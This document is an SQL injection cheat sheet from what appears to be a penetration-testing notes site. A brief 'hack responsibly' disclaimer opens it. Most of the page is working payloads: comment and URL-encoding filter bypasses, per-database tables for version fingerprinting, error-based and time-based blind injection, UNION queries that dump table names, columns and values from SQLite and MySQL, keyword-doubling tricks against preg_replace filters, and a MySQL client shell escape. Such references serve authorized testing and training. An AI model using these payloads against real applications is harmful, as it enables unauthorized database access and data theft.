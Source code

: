 # SQL

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## SQLi - SQL Injection

* [SQL Injection Cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Blind SQL injection UNIoN queries: [Ippsec:HacktheBox - Charon](https://www.youtube.com/watch?v=_csbKuOlmdE) use `CONCAT("x","x")`

### SQL Injection Tips

`--` -&gt; Comments in Linux  
`--+` -&gt; Comments in Windows  
`%23 (#)` -&gt; Hash Symbol  
`%2527 (')` -&gt; to bypass urldecode\(urldecode\(htmlspecialchars\(, ENT\_QUOTES\)\)\);

### String concatenation <a id="string-concatenation"></a>

You can concatenate together multiple strings to make a single string.

| Oracle | `'foo'||'bar'` |
| :--- | :--- |
| Microsoft | `'foo'+'bar'` |
| PostgreSQL | `'foo'||'bar'` |
| MySQL | `'foo' 'bar'` \[Note the space between the two strings\] `CONCAT('foo','bar')`  |

### Substring <a id="substring"></a>

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

| Oracle | `SUBSTR('foobar', 4, 2)` |
| :--- | :--- |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL | `SUBSTRING('foobar', 4, 2)` |

### Comments <a id="comments"></a>

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle | `--comment`  |
| :--- | :--- |
| Microsoft | `--comment /*comment*/` |
| PostgreSQL | `--comment /*comment*/` |
| MySQL | `#comment` `-- comment` \[Note the space after the double dash\] `/*comment*/` |

### Database version <a id="database-version"></a>

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle | `SELECT banner FROM v$version SELECT version FROM v$instance`  |
| :--- | :--- |
| Microsoft | `SELECT @@version` |
| PostgreSQL | `SELECT version()` |
| MySQL | `SELECT @@version` |

### Database contents <a id="database-contents"></a>

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle | `SELECT * FROM all_tables SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` |
| :--- | :--- |
| Microsoft | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
| PostgreSQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |
| MySQL | `SELECT * FROM information_schema.tables SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`  |

### Conditional errors <a id="conditional-errors"></a>

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` |
| :--- | :--- |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### Batched \(or stacked\) queries <a id="batched-or-stacked-queries"></a>

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle | `Does not support batched queries.` |
| :--- | :--- |
| Microsoft | `QUERY-1-HERE; QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE` |
| MySQL | `QUERY-1-HERE; QUERY-2-HERE` |

{% hint style="info" %}
**Note:** With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
{% endhint %}

### Time delays <a id="time-delays"></a>

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle | `dbms_pipe.receive_message(('a'),10)` |
| :--- | :--- |
| Microsoft | `WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT pg_sleep(10)` |
| MySQL | `SELECT sleep(10)` |

### Conditional time delays <a id="conditional-time-delays"></a>

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--- | :--- |
| Microsoft | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` |

### Manual UNION SQLite Injection

_Table_

```sql
1' union all select 1,tbl_name,3 FROM sqlite_master WHERE type='table' limit 0,1 --
```

_Columns \(as command\)_

```sql
1' union all select 1,sql,3 FROM sqlite_master WHERE type='table' and tbl_name='nameoftable' limit 0,1 --
```

_Values \(payload depends on the columns structure\)_

```sql
1' union all select 1,"nameofcolumn",3 FROM "nameoftable" limit 2,1 --
```

### Manual UNION SQL Injection

_Table_

```sql
1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),2#
```

_Columns_

```sql
1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='nameoftable'),2#
```

_Values_

```sql
1' union select (select nameofcolumn from nameoftable limit 0,1),2#
```

_Using Newline_

```sql
admin %0A union %0A select %0A 1,database()#
           or
admin %0A union %0A select %0A database(),2#
```

_Bypass preg\_replace_

```sql
ununionion select 1,2%23
     or
UNunionION SEselectLECT 1,2,3%23
```

## Misc

get shell in mysql: `\! /bin/sh`



If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!


